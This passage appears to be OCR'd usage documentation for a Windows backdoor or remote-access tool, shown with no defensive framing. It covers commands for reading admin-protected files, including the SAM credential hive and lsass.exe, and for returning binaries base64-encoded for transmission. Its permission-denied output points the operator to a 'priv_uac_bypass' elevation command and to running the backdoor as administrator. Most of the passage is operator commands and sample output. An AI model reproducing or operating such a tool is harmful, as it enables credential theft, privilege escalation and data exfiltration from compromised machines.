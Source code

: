 **Response:**

```
[+] File read successfully using powershell
[+] File: C:\Windows\System32\config\SAM
[+] Content length: 262144 characters
============================================================
SAM file content here...
============================================================
```

**If permission denied:**

```
[-] Failed to read file: Permission denied - admin privileges required

Note: Not running as admin. Try:
1. Run 'priv_uac_bypass' to attempt elevation
2. Run backdoor as administrator
3. Use 'priv_check' to verify admin status
```

---

### 2. Read Admin-Protected Binary Files

```bash
priv_read_binary <file_path>
```

**Purpose:** Read binary files (executables, DLLs, databases) that require admin privileges. Returns base64-encoded content for safe transmission.

**How it works:**

1. Attempts direct binary read
2. Falls back to PowerShell base64 encoding (Windows)
3. Returns content as base64 string

**Example:**

```bash
# Read protected executable
priv_read_binary C:\Windows\System32\lsass.exe

# Read database file
priv_read_binary C:\Program Files\Database\data.db

# Read protected DLL
priv_read_binary C:\Windows\System32\ntdll.dll
```

**Response:**

```
[+] Binary file read successfully using powershell_binary
[+] File: C:\Windows\System32\ntdll.dll
[+] File size: 2048576 bytes
[+] Base64 length: 2731436 characters
============================================================
Base64 Content (first 500 chars):
TVqQAAMAAAAEAAAA//8AALgAAAAAAAAAQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAA8AAAAA4fug4AtAnNIbgBTM0hVGhpcyBwcm9ncmFtIGNhbm5v...
... (2730936 more characters)
============================================================
```
